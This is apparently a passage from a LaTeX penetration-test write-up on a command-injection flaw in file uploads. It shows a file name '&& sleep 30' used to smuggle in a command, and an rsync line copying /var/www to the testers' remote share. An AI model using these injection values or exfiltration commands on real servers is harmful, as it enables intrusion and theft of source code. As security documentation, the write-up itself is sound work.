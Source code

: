 Likelihood:  medium - high\newline

Impact: high\newline

Risk: high\newline

\subsection{Discovery}

The discovery was easily found by simply uploading a file called \textit{\&\& sleep 30}. We then noticed that the response of the server is delayed by about 30 seconds. This was reason enough to try some more. We then tried to execute code which will download the \textit{/var/www} directory to our local box. The main problem was that it is not possible to use slashes in Unix file names. That means we can not easily change directories or name the file something like this\footnote{For more information on rsync and the rsync daemon please have a look at Appendix \ref{appendix:rsync}}:

\begin{lstlisting}[caption=File with '/' (does not work), label=listing:not_working_file]
&& rsync /var/www mybox::myshare
\end{lstlisting}

Due to this we wanted to be the uploaded file be interpreted by bash on the host, so we could just write a simple bash script with the following content:

\begin{lstlisting}[caption=Bash Script to Get PHP Code, label=listing:bash_script]
rsync /var/www mybox::myshare
\end{lstlisting}

The problem is, we need to somehow integrate the bash execution in our file name like this:

\begin{lstlisting}[caption=Executing code via bash, label=listing:execute_bash_script]
... && bash script.sh
\end{lstlisting}

That means that we need somehow get to the directory the uploaded file is located, we assumed \textit{/tmp/\$filename}.

So we need to change the directory to \textit{/tmp/}. We archived that to create a temporary directory, change to it, and then change to the upper directory like illustrated in Listing \ref{listing:change_to_tmp}. We had to do that because we cannot use slashes in the file name.

